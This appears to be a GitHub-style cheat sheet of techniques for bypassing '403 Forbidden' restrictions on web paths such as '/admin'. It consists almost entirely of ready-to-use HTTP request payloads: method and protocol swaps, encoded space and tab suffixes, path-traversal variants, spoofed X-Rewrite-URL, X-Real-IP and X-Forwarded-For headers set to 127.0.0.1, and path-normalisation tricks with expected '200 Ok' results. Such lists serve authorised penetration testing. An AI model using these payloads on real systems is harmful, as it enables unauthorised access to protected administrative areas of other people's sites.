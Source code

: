 ### Change request method.
```
POST -> GET
GET -> POST
```

### Change Protocol
```
http -> https
https -> http
```

### Use space symbol.
```
GET /admin%20
GET /admin%09
```

### X-Rewrite-URL header
```
GET /index.html
X-Rewrite-URL: /admin
```
### Use Path Traversal
```
GET /%2e/admin
GET /admin/..;/
```
			
### X-Real-IP/X-Forwrded-For
```
GET /admin
X-Real-IP: 127.0.0.1
```
```
GET /admin
X-Forwarded-For: 127.0.0.1
```

### Other Techniques
target.com/secret -> ```403 Forbidden```

target.com/secret/ -> ```200 Ok```

target.com//secret// -> ```200 Ok```

target.com/./secret/./ -> ```200 Ok```

target.com/secret/* -> ```200 Ok```

target.com/. -> ```200 Ok```
